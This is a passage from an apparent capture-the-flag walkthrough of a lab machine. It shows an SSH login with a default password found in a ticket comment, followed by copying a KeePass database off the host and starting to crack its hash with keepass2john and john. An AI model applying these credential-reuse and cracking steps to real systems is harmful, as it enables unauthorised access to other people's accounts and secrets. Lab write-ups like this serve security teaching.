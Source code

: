 ```
Attached to this ticket is a crash dump of the keepass program. Do I need to update the version of the program first...?
```
And in comment of this post:
```
I have saved the file to my home directory and removed the attachment for security reasons.
```
Then, in the admin interface, you can get the list of the users and I noticed there are only two, the root user and `lnorgaard`. In the comment about this user, you have this note:
```
New user. Initial password set to Welcome2023!
```
I tried to use this password to connect in SSH:
```
$ssh lnorgaard@10.129.59.214
The authenticity of host '10.129.59.214 (10.129.59.214)' can't be established.
ECDSA key fingerprint is SHA256:apkh696g2/uAeckIXd6eFvgmvmPqoEj41w4ia45OfrI.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.59.214' (ECDSA) to the list of known hosts.
lnorgaard@10.129.59.214's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
You have mail.
Last login: Tue Aug  8 11:31:22 2023 from 10.10.14.23
lnorgaard@keeper:~$
```
It worked! I can now get the user flag:
```
lnorgaard@keeper:~$ ls
RT30000.zip  user.txt
lnorgaard@keeper:~$ cat user.txt
8[...SNIP...]b
```
## Privilege escalation
### `lnorgaard` enumeration
Now that we have access to `lnorgaard` session, we can look at the files in the home folder and more specifically into the crash dump given by the root user as explained in the ticket we saw earlier. There is a zip file in the home folder that contains two files:
```
lnorgaard@keeper:~$ ls
KeePassDumpFull.dmp  RT30000.zip  passcodes.kdbx  user.txt
```
There is a dump file of the application KeePass and a file `kdbx` which is a database for this application. We will try to get passwords from this file using `keepass2john` and `john`. First, we will transfer the file in our machine:
```
$scp  lnorgaard@10.129.59.214:~/passcodes.kdbx passcodes.kdbx
```
To run the bruteforce, I first need to find back the hashes from the KeePass database and then run john:
```
$keepass2john passcodes.kdbx > hash
$john --wordlist=/usr/share/wordlists/rockyou.txt
```
The analysis takes soooo loooong that I have time to find another way to crack this. I am wondering if I could get something from the dump file:
```
$file KeePassDumpFull.dmp 
KeePassDumpFull.dmp: Mini DuMP crash report, 16 streams, Fri May 19 13:46:21 2023, 0x1806 type
```